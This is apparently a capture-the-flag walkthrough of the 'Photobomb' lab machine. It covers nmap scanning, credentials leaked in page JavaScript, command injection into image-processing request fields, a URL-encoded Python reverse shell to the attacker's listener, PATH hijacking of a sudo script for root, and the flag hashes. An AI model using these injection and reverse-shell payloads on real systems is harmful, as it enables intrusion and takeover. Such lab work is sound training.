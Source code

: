 # Photobomb (writeup)

First, make the normal scan with nmap to discover open ports
```
sudo nmap -sS --min-rate 5000 --open -Pn -n -vvv -p- 10.10.11.182 -oG allPorts
```

Need to know the details and the version
```
nmap -sC -sV -p22,80 10.10.11.182 -oN targeted
```

Have to discover the web, where can find a "login" page. make ```CTRL+U``` to see the full html source code and notice there's a ```photobomb.js``` file. the content is
```
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

There is important information here
```
http://pH0t0:b0Mb!@photobomb.htb/printer
```

Can just copy and paste the link or extract the username and the password:
```
username: pH0t0
password: 0Mb!
```

Once inside, open ```Burpsuite``` to intercept the traffic. WWe have these parameters:
```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```

Playing with them, notice we can insert extra parameters. For this
```
sudo python3 -m http.server 222
```

Don't forget to url encode your code !
```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg;curl%20http%3a%2f%2f<IP_ADDRESS>%3a<PORT>%2f&curlfiletype=jpg&dimensions=3000x2000
```
> For my personal case I did (not encoded)
> ```
> curl http://10.10.81.16:222/
> ```


So, let's send a rever shell !
> For more detail, [this]() page is excellent for starting
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.11",403));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
> Don't forget to change your IP_Address and the port for your personal case !

Open a listener !
```
sudo ncat lvnp 403
```

We need to url encode the following code ! finally we have
```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;python3%20-c%20'import%20socket%2csubprocess%2cos%3bs%3dsocket.socket(socket.AF_INET%2csocket.SOCK_STREAM)%3bs.connect((%2210.10.16.11%22%2c403))%3bos.dup2(s.fileno()%2c0)%3b%20os.dup2(s.fileno()%2c1)%3bos.dup2(s.fileno()%2c2)%3bimport%20pty%3b%20pty.spawn(%22sh%22)'&dimensions=3000x2000
```

Ok, we have a revershell ! let's improve it !
```
script /dev/null -c bash
```
```
CTRL+Z
```
```
stty raw -echo; fg
```
```
reset xterm
```
```
export TERM=xterm
export SHELL=/bin/bash
```

The first flag (```user.txt```) is in the ```wizard``` home directory !
```
66526a893503d04160f85ac08c96c352
```

Let's check if we got sudo priviliges by
```
sudo -l
```

Notice we can run the ```/opt/cleanup.sh``` script as sudo
```
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Reading the script, in last line seems to be a vulnerability
```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

So, for the privilige scalation, run in the ```/home/wizard``` directory
```
echo "/bin/bash" > find
```
```
chmod +x find
```
```
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

And we get root ! find the last flag at ```/root/root.txt```
```
15ca9c007db75053184b801a19a362a0
```

Done !
